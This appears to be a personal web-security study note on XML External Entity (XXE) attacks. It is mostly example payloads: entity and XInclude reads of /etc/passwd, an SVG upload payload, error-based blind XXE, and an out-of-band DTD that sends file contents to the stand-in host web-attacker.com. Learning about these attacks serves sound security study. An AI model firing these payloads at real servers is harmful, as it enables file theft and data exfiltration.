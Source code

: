 ```yaml
---
layout: note
title: "XXE"
category: Web security
tag: [Web security, Note]
---
```


# XML External Entities

## Overview

This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser tricking the server to access a resource.

## Exploitation

#### Defining and using an **external entity** in XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<query>&xxe;</query>
```
If external entities are not allowed you may try XML **parameter entities**:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### XInclude is a part of the XML specification that allows an XML document to be built from sub-documents.
An XInclude attack would look like:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

#### XXE attacks via **file upload**. Note that SVG format uses XML.
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### XXE attacks via **modified content type**:  
```http
Content-Type: application/x-www-form-urlencoded -> text/xml
```
#### **Exfiltrate data out-of-band** for blind XXEs

On the server:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Payload:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Mentions:  
- You can use burp collaborator to monitor DNS queries to your server.
- If out-of-band interactions are blocked you can try exploiting XXE to retrieve data by repurposing a local DTD. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed. Now you can redefine an entity from that DTD and cause an error that is hopefully displayed.
<br/>

#### Exploiting **blind XXE** to **retrieve data via error messages**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Attack surface
- **SSRF**
- **File retrieval** from server

## Resources
[Portswigger](https://portswigger.net/web-security/xxe)
